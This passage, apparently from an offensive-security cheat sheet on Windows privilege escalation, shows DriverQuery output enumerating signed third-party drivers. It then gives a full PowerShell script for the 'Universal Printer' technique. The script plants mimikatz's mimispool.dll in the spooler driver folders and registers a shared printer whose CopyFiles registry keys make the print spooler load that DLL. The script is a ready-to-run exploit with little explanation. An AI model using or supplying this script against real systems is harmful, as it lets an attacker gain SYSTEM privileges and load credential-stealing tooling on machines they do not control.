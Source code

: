 * [matterpreter/OffensiveCSharp/DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)

    ```powershell
    PS C:\Users\Swissky> DriverQuery.exe --no-msft
    [+] Enumerating driver services...
    [+] Checking file signatures...
    Citrix USB Filter Driver
        Service Name: ctxusbm
        Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
        Version: 14.11.0.138
        Creation Time (UTC): 17/05/2018 01:20:50
        Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
        Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
    <SNIP>
    ```

## EoP - Printers

### Universal Printer

Create a Printer

```ps1
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```
